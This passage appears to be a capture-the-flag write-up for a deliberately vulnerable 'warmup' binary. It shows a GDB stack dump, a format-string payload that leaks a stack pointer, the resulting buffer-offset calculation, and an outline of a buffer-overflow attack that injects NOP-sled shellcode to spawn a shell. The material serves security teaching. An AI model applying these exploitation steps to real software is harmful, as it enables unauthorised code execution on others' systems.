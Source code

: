 ```
0x7fffffffde78:	0x000000000040075d	0x00007ffff7de59a0
0x7fffffffde88:	0x0000000000000000	0x0000000000400710
0x7fffffffde98:	0x0000000000400590	0x00007fffffffdf90
0x7fffffffdea8:	0x0000000000000000	0x0000000000400710
0x7fffffffdeb8:	0x00007ffff7a05b97	0x0000000000000001
0x7fffffffdec8:	0x00007fffffffdf98	0x0000000100008000  <-- this one (on the left) looks good
0x7fffffffded8:	0x00000000004006ba	0x0000000000000000
0x7fffffffdee8:	0x2bfdf5ba6193f872	0x0000000000400590
0x7fffffffdef8:	0x00007fffffffdf90	0x0000000000000000
0x7fffffffdf08:	0x0000000000000000	0xd4020ac5d233f872
0x7fffffffdf18:	0xd4021a7ad92df872	0x00007fff00000000
0x7fffffffdf28:	0x0000000000000000	0x0000000000000000
0x7fffffffdf38:	0x00007ffff7de5733	0x00007ffff7dcb638
0x7fffffffdf48:	0x0000000014e55a46	0x0000000000000000
0x7fffffffdf58:	0x0000000000000000	0x0000000000000000
0x7fffffffdf68:	0x0000000000400590	0x00007fffffffdf90
0x7fffffffdf78:	0x00000000004005ba	0x00007fffffffdf88
0x7fffffffdf88:	0x000000000000001c	0x0000000000000001
0x7fffffffdf98:	0x00007fffffffe317	0x0000000000000000
```

Let's leak the pointer `0x00007fffffffdf98`.  There are 36 QWORDs on the stack above it.  However, since this is a 64-bit program, printf will also look in `rsi`, `rdx`, `rcx`, `r8`, and `r9` first.  36 + 5 = 41, meaning we want to leak the 41st QWORD.

```
gef➤  r
Starting program: /tmp/warmup 
Hello CTF Players!
This is a warmup challenge for pwnable.
We provide some hints for beginners spawning a shell to get the flag.

1. This binary has no SSP (Stack Smash Protection). So you can get control of instruction pointer with stack overflow.
2. NX-bit is disabled. You can run your shellcode easily.
3. PIE (Position Independent Executable) is also disabled. Some memory addresses are fixed by default.

If you get stuck, we recommend you to search about ROP and x64-shellcode.
Please pwn me :)
%41$016lx
00007fffffffdf98[Inferior 1 (process 9302) exited normally]
gef➤
```

It worked!  We can now calculate our buffer address at an offset of this pointer.  Our buffer is at address `0x00007fffffffddb0` which we can see in `rdi` right before printf is called.

`00007fffffffdf98 - 0x00007fffffffddb0 = 0x1e8`

Therefore, our buffer will always be at `addr - 0x1e8`

Putting it all together, we will
1. Overflow the buffer with `%41$016lx ...264 total bytes + address_of_main`
2. Use the leaked pointer to calculate the buffer address
3. Send another overflow, this time with `nops... + shellcode + address_of_buffer`
4. Enjoy our shell!
